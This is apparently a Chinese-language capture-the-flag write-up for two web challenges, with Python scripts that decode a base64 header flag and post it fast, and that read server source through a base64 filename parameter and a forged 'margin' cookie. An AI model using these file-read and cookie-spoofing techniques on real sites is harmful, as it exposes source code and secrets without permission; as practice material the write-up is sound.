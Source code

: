 # 5. Web6

> 速度要快！！！！！！ 格式KEY{xxxxxxxxxxxxxx}

**Hint. **这题好恶心，火狐浏览器打开控制台可以看到请求的响应头里有*flag *，base64解码后提交发现不是*key *，查看网页源码

```
<!-- OK ,now you have to post the margin what you find -->

```

直接hackbar提交居然提示**速度要更快**！！！
擦，直接写段python脚本，折腾了我几天

```
import requests
import base64

url = 'http://120.24.86.145:8002/web6/'
req = requests.session()
res = req.get(url)
flag = res.headers['flag']

txt = base64.b64decode(flag)
txt = txt[txt.index(":")+2:]
txt = base64.b64decode(txt)

data = {'margin': txt}
ans = req.post(url, data)
print ans.content

```

# 6. cookies欺骗？？

**Hint. **起先没思路，分析url中的参数`filename`，进行base64解码，发现是keys.txt，那么换成index.php呢？顺便设置参数`line`的值，居然有反应。不多说，上python脚本。

```
import requests
import base64

url1 = 'http://120.24.86.145:8002/web11/index.php?line='
url2 = '&filename='

filename = base64.b64encode("index.php")
req = requests.session()
for line in range(0, 20):
    url = url1 + str(line) + url2 + filename
    print req.get(url).content,

```

发现是要设置cookie的margin值，然后读取keys.php

```
filename = base64.b64encode("keys.php")
url = url1 + str(0) + url2 + filename
print req.get(url, cookies={'margin': 'margin'}).content
```